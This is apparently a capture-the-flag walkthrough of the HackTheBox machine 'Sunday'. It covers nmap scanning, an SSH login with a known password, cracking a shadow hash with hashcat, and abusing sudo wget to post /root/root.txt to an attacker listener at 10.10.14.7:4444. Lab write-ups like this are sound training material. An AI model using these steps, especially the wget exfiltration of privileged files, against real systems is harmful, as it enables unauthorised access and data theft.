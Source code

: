 # Recon
We start with a nmap scan but we add ```--max-retries 0``` so it will speed up the process.
```
sudo nmap -sV -sC -O -p- -oN nmap.txt 10.10.10.76 -T 5 --max-retries 0
```
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Sunday/assets/2.png">

# Enumeration
We can do a simple check to see which users exist:
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Sunday/assets/1.png">

# Initial Foothold
We can now login using SSH on port 22022 with password ```sunday```. We see that we can run ```sudo /root/troll```. But the binary doesn't seem to exist.

We find a shadow backup file which we can read. We extract the hash and bruteforce it with hashcat.
```
hashcat -a 0 -m 7400 hash /usr/share/wordlists/rockyou.txt -w 3 -O
```
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Sunday/assets/3.png">

We can now login as user sammy. Using ```sudo -l``` we find that it's possible to run ```sudo /usr/bin/wget```.

We can use it to paste the content of root.txt and collect it with netcat.
```
sudo /usr/bin/wget --post-file=/root/root.txt 10.10.14.7:4444
```


